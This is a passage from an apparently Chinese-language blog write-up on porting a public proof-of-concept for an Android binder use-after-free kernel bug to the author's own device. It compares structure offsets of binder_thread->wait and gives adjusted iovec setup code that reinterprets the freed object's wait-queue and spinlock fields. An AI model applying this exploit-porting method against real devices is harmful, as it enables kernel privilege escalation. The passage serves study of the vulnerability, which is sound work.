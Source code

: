 ## 移植过程

好了，原理就是这么多了，可以开始检查为什么原版 PoC 一运行就重启了。

### 1. writev 没返回就重启

到了 writev 没一会儿就崩了，writev 没有返回，子线程也还没开始读数据。可能是触发漏洞的时候 use 部分炸了。

对比一下 PoC 里面的结构体偏移量和我设备的内核源码，发现 PoC 里面 `binder_thread` 的 wait 成员在 0xA0 位置开始，而我的在 0x98 位置。这样就导致漏洞触发后 `import_iovec()` 往 `binder_thread` 写的数据被解析成不一样的含义。如下：

```
# 我的设备
binder_thread->wait.lock      在 0x98 对应 &iovec[9 ].iov_len
binder_thread->wait.head.next 在 0xA0 对应 &iovec[10].iov_base
binder_thread->wait.head.prev 在 0xA8 对应 &iovec[10].iov_len

# PoC
binder_thread->wait.lock      在 0xA0 对应 &iovec[10].iov_base
binder_thread->wait.head.next 在 0xA8 对应 &iovec[10].iov_len
binder_thread->wait.head.prev 在 0xB0 对应 &iovec[11].iov_base
```

按 PoC 的构造逻辑，改成我的偏移以后，构造的结构体为

```c
// iov_idx = offsetof(binder_thread->wait) / sizeof(iovec)
//         = 152 / 16
//         = 9
bio.iovs[9].iov_base  = dummy_page;
bio.iovs[9].iov_len   = PAGE_SIZE;
bio.iovs[10].iov_base = (void *)0xdeadbeef;
bio.iovs[10].iov_len  = PAGE_SIZE;
```

在触发漏洞时，会被解释为

```c
binder_thread->wait.loc       = PAGE_SIZE;
binder_thread->wait.head.next = &binder_thread->wait.head; /* 甚至可能还没来得及改 */
binder_thread->wait.head.prev = &binder_thread->wait.head;
```

注意此时 lock 的值是 PAGE_SIZE (0x1000)，这是一个非解锁的 spinlock 状态。ARM64 的 spinlock 结构如下：

```c
typedef struct {
#ifdef __AARCH64EB__
    u16 next;
    u16 owner;
#else
    u16 owner;
    u16 next;
#endif
} __aligned(4) arch_spinlock_t;
```

